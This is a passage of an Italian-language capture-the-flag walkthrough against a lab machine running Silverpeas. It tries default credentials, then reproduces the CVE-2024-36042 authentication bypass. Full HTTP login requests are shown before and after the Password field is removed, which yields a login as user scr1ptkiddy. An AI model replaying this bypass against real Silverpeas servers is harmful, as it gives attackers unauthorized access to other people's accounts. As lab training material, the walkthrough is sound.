 niente di chè sembra che siamo in un vicolo cieco

Cerchiamo informazioni su Silverpeas, scopriamo su internet che è una piattafoema di collaborazione
dopo l'installazione, viene creata una directory chiamata **silverpeas** e le credenziali predefinite sono
**SilverAdmin/SilverAdmin**
proviamo a collegarci su
```
http://10.10.196.87:8080/silverpeas/defaultLogin.jsp
```
troviamo un form di login

- proviamo a loggarci con le credenziali di default SilverAdmin ma nulla di fatto
- proviamo con SQLi ancora con esito negativo
- non proviamo il bruteforce sull'utente scr1ptkiddy inquanto sappiamo che la password non rientra tra i dizionari
- possiamo vedere facendo una ricerca se c'è qualche vulnerabilità su silverpeas

troviamo una vulterabilità di bypass dell'autenticazione
 **[CVE-2024-36042.md](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)**

quindi apriamo Burp Suite e catturiamo la richiesta di login
```
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.196.87:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.196.87:8080
Connection: keep-alive
Referer: http://10.10.196.87:8080/silverpeas/defaultLogin.jsp?DomainId=0&ErrorCode=1
Cookie: JSESSIONID=mNY8N-e14Fgc7FYgh__p7K5ORgHb3OkX8eUPUBHS.ebabc79c6d2a
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&Password=12345&DomainId=0
```
rimoviamo il campo Password ed inviamo la richiesta
```
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.196.87:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.196.87:8080
Connection: keep-alive
Referer: http://10.10.196.87:8080/silverpeas/defaultLogin.jsp?DomainId=0&ErrorCode=1
Cookie: JSESSIONID=mNY8N-e14Fgc7FYgh__p7K5ORgHb3OkX8eUPUBHS.ebabc79c6d2a
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&DomainId=0
```
eccoci loggati in
```
http://10.10.196.87:8080/silverpeas/look/jsp/MainFrame.jsp
```
